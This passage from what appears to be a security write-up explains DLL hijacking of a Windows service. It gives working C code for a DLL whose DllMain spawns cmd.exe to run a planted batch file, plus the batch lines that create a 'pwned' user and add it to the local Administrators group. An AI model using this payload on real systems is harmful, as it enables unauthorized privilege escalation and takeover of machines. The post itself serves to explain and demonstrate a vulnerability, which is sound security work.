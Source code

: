 A `DLL` can have an optional [entry point](https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain) called `DllMain`. If we provide one, it will get called automatically upon loading of the `DLL`. It's a similar concept to `GCC's` [constructor attribute](https://stackoverflow.com/questions/2053029/how-exactly-does-attribute-constructor-work).
There seem to be "significant limits on what you can safely do in a DLL entry point", according to the `Microsoft` docs. In order to keep it simple, our payload will only execute a `batch file` that we can plant via the `REST API`.

Here's the code for the `DLL`:

```C { linenos=true, linenostart=1 }
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload() {
  STARTUPINFO si;
  PROCESS_INFORMATION pi;

  char cmd[] = "cmd.exe /C \"\"D:\\path\\to\\our\\service-binary\\payload.bat\"";

  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
  switch (fdwReason) {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Most of this is boilerplate found in the documentation. Our `Payload()` function simply spawns a new process that executes our script via `cmd.exe`. What does our script do?

```text { linenos=true, linenostart=1 }
net user pwned pwned /add
net localgroup Administratoren pwned /add
```

We simply create a new user and add it to the admin group as a proof of concept.

After compiling the `DLL` (we'll get there in a minute), we would write it and the script into the directory that contains the service binary. And then we'd have to wait until someone or something decides to restart the service, because those `DLLs` are not automatically loaded once present.
